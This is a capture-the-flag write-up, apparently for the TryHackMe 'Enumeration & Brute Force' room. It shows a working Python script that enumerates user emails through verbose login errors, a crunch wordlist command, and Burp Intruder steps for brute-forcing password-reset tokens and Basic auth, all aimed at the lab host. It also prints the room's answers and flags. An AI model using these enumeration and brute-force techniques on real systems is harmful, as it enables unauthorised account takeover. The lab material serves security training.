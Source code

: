 # Enumeration & Brute Force

![image](https://github.com/user-attachments/assets/a9f303e9-3636-4cd1-8d78-2baf824c04e4)

## Objectives
By the end of this room, you will:
- Understand the significance of enumeration and how it sets the stage for effective brute-force attacks.
- Learn advanced enumeration methods, mainly focusing on extracting information from verbose error messages.
- Comprehend the relationship between enumeration and brute-force attacks in compromising authentication mechanisms.
- Gain practical experience using tools and techniques for both enumeration and brute-force attacks.

**URL:** https://tryhackme.com/r/room/enumerationbruteforce

## Authentication Enumeration
In order to perform the brute force attacks, we must first figure out the authentication mechanism. The goal is to learn how everything is conncected, providing a blueprint for potential attacks.
  1. We must identify valid usernames or emails
  2. Identify passwords policies
These are the two main things we need to focus for the enumeration processes.
THere are several places to look for:

**Registration page**
- This is where we can enumerate both usernames and passwords policies. If a username has already existed, the application will prevent us from registering a new user using that same username.
- Similarly, we can find out password policies by trying different combinations. The errors displayed by the applications provide us with the password policies

**Password reset features**
- Password reset mechanisms are implemented differently on various applications. Some unintentional behavior / misconfiguration may provide sensitive information. For example, like registration page, when trying to reset password for a non-existing user, the application may display an error stating the user does not exist. We can leverage this message to exploit usernames (as existing users won't display these kinds of messages).

**Verbose error**
- These are errors messages displayed when users interact with the applications. "Users not found", "invalid token", "incorrect passwords" are amongst the most commonly used, which allows attackers to gain more information about the authentication process.

To enumerate the email:
1. Create a Python script `script.py`

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
```

2. Download the email list from this [repository](https://github.com/nyxgeek/username-lists/blob/master/usernames-top100/usernames_gmail.com.txt)
3. Run the script against the downloaded text file in step 2
```bash
python3 script.py usernames_gmail.com.txt
```
And we found the email.

**- What type of error messages can unintentionally provide attackers with confirmation of valid usernames?**

`-> Verbose error`

**- What is the valid email address from the list?**

`-> canderson@gmail.com`

## Exploit vulnerability password reset logic
- Go to `http://enum.thm/labs/predictable_tokens/forgot.php` and submit a password reset for `admin@admin.com`
- Create an `otp.txt` file to bruteforce the token
```bash
crunch 3 3 -t %%% -s 100 -e 200 -o otp.txt
```
- Make a GET request to `http://enum.thm/labs/predictable_tokens/reset_password.php?token=123` and intercept the request using BurpSuite and send it to Intruder
- In Burp Suite, set the position `123` to be brute-forced
  
![image](https://github.com/user-attachments/assets/4b5e054d-d61c-4cbe-b5e6-c77793d2d68d)

- In the **Payloads** tab, load the `otp.txt` created in the previous step

  ![image](https://github.com/user-attachments/assets/e227b679-6b35-4458-b1ca-964f1315134e)

- In the **Settings** tab, add "Ivalid token" error message to filter the request that doesn't contain that message. This helps use quickly identify the valid token

![image](https://github.com/user-attachments/assets/3013ba97-9f22-4cfd-8fd6-2026c616a7d0)

- Once the valid token is found, view the Response body, which provides the new password for `admin@admin.com`. Use it to log in and retrieve the flag.

**- What is the flag?**

`-> THM{50_pr3d1ct4BL333!!}`

## Exploit Basic HTTP Authentication
- Go to the `http://enum.thm/labs/basic_auth`
- Attempt to login with credentials `admin:password`
- Intercept the traffic in Burp Suite
- In the `Authorization` field, highlight the value next to "Basic"
  
  ![image](https://github.com/user-attachments/assets/23d443e4-ee36-4b3e-b2bc-107d9c9a849b)

- Notice that on the right side under the **Inspector** panel, the text is decoded from Base64, which results from the login credentials.
- Send the request to Intruder to bruteforce
- Highlight the encoded text we just inspected so it can be brute-forced

![image](https://github.com/user-attachments/assets/52bf6e33-783f-4b0c-a2a9-fa9099f07d11)

- In the **Payloads** tab, load the password text from `/usr/share/SecLists/Passwords/Common-Credentials/500-top-worst-passwords.txt`

![image](https://github.com/user-attachments/assets/8ff67250-1626-4e4f-b5c1-a244036dee56)

- Scroll down to the **Payload Processing** section, add a rule. The first rule we add is `**Add prefix**` with value `admin:`

![image](https://github.com/user-attachments/assets/5f84b029-efb9-4914-998c-afb604428226)

- Add the second rule to Base64 encode the whole payload. The final result of the  **Payload Process** should look like this:

![image](https://github.com/user-attachments/assets/637898fc-a2d6-450d-b8e0-82a1f6de3b55)

- Start the attack, and we should get a valid payload to login for `admin`. Decode it and we should get the password.

**- What is the flag?**

`-> THM{b4$$1C_AuTTHHH}`
